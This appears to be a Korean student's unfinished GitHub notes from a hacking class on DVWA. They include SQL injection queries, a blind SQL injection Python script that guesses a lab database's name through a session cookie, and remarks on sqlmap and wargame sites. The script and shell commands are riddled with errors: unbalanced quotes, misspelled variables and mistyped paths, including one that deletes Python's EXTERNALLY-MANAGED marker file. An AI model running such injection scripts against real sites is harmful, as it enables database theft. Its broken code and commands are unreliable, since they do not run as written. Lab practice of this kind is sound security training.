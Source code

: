 # 오늘의 코드들....쓰다 말았음..

    DVWA 에 
    select first_name, list_name from users where user_id = '$id';
    select first_name, list_name from users where user_id = '1' and 1=2#';
    true and false = false
    select first_name, list_name from users where user_id = '1' or 1=2#';
    true or false = true
    select first_name, list_name from users where user_id
    

패키지 설치
    
    blind_sqli.py
    sudo apt install python3-pip
    pip3 install beautifulsoup4
    
    sudo vi /etc//recoly.conf
    pgdn
    i 누름
    nameserver 127.0.0.53 -> namesrver 8.8.8.8 변경
    esc 누름
    : 누름
    wq! 누름
    sudo apt update
    sudo apt autoclean
    sudo apt updete
    
    안된다면
    sudo rm /uer lib/python3.12/EXTERNAKKY-MANAGE

    import requests
    from bs4 import BeautifulSoup
    from urllib
    import string
    
    TARGET_URL = "http://10.104.147.200:9980/vulnerabilities/sqli_blind/
    URI1 = "?id="
    URI2 = "?id={}&Submit=Submit#"
    cookies = "PHPSESSID=qv7vnnbi34na8mv5cp2sfa50m04; security=low"
    response = requests.get(TARGET_URL, headers={"Cookie":cookies})
    
    # print(response.status_code)

    
    for database_length in range(10):
      query = "1" AND LENGTH(DATABASE()) = " + str(database_length)+urllib.parse.quote("#")
      print(query)
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      #print(query_response.text)

    soup = BeautifulSoup(query_response.content, 'html.parser')
    check_value = soup.find("pre")
    if "User ID exists in the database." in check_value:
    print("Database length :" str(database_langth))
    db_length=database_length

    database_name = ''

    for c in string.ascii_lowercase:
      duery = "1" AND SUBSTRING(DATABASE(), 1, 1) = " + c + urllib.parse.quote("#")
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      soup = BeautifulSoup(query_response.content, 'html.parser')
      check_value = soup.find("pre")
      # print(check_value.text)

      if "User ID exists in the database." in check_value:
        print(c) 
       database_name += c
    print("Database name : "+ database_name)

    "1' AND(SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base ...)


그리고 자바 스크립트 어택이라는 화면에서 

![image](https://github.com/user-attachments/assets/a0fd1bd9-ecd0-47c6-9f45-fdb4fcad4c77)

---

![image](https://github.com/user-attachments/assets/148b1195-a1fd-4fc7-89da-58446d3f603d)


- sqlmap 활용하여 위에 코드 덜 쓴 sql를 쓸 수 있다.

- 드림핵(dreamhack)문제 풀어보면 대회에 대비할 수 있다.
- (해킹)워게임 사이트에서도 문제를 풀어볼 수 있다.


## 다음 시간 예고

다음 시간에는 리버싱에 대해서 배우게 될것이다.
어센블리라는 것을 하기로 예고하였다. 

